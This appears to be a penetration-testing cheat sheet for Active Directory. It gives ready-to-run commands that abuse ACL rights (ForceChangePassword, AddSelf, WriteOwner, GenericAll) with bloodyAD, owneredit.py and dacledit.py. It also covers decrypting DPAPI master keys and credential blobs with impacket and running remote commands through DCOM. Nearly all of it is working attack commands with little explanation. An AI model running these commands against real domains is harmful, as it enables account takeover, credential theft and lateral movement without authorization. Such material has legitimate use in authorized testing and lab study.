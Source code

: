 

### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```




### 3. Change OwnerShip of a user  using ownerdit.py


If we have WriteOwner right over a user object, we can use `owneredit.py` to change the object ownership


```bash
owneredit.py domain/owneruser -target 'user-whose-ownership-is-to-be-changed' -action write -new-owner 'new-owner'
```





### 4. Granting GenericAll privilege to abuse ownership of a user object using dacledit.py


```bash
dacledit.py -action write -rights 'Full Control' -principal 'owneduser' -target 'targetuser' 'domain/owneduser:password'
```





### 5. Finding DN of a user with ldapsearch


```bash
ldapsearch -x -H ldap://<IP> -D "username@domain" -W -b "dc=domain,dc=com" "(sAMAccountName=<username>)"
```





### 6.  LdapModify with an LDIF file


```bash
ldapmodify -x -H ldap://<ip> -D "username@domain" -W -f <ldif_file
```





### 7. Decrypting DPAPI master key 


```bash
impacket-dpapi -master <masterkeyfile> -sid SID -password <password_of_the_user>
```




### 8. Decrypting DPAPI credential blob


```bash
impacket-dpapi -key <decrypted_master_key> -cred <encrypted_cred_blob>
```





## 9. Executing Commands Via DCOM on a remote machine


```bash
dcomexec.py domain/username:password@ip -dc-ip <ip> -M MMC20 'command'
```




